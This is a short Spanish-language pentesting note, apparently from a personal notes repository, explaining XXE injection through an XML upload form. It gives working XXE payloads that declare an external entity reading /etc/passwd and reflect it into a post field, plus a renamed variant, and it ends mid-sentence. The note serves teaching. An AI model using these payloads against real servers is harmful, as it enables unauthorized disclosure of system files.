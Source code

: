 ```yaml
---
icon: file-xml
---
```


# XXE Injection

URL = [Info XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

Supongamos que tenemos una web en la que podemos subir cosas en formato `xml` y que la estructura la procesa bien mostrandonos asi el input que nosotros hemos metido, si se fia de cualquier input que le podamos meter, podremos hacer la inyeccion `XXE`...

Supongamos que la estructura del `xml` es la siguiente...

```xml
<post>
	<title>test</title>
	<description>message test</description>
	<markdown>test test test</markdown>
</post>
```

Y ese input se refleja en la pagina cuando lo vamos a subir, por lo que podremos hacer lo siguiente...

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<post>
	<title>test</title>
	<description>message test</description>
	<markdown>&xxe;</markdown>
</post>
```

Si es vulnerable a este tipo de inyeccion deberiamos de poder ver el archivo `passwd` en el espacio donde estamos poniendo `&xxe;` y este nombre puede ser cualquiera que le queramos asignar en la parte de arriba en la zona `<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>` donde pone `xxe` podemos nombrarlo como queramos por ejemplo...

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY example SYSTEM "file:///etc/passwd" >]>
<post>
	<title>test</title>
	<description>message test</description>
	<markdown>&example;</markdown>
</post>
```

Si le cambiamos el nombre quedaria de esta manera...
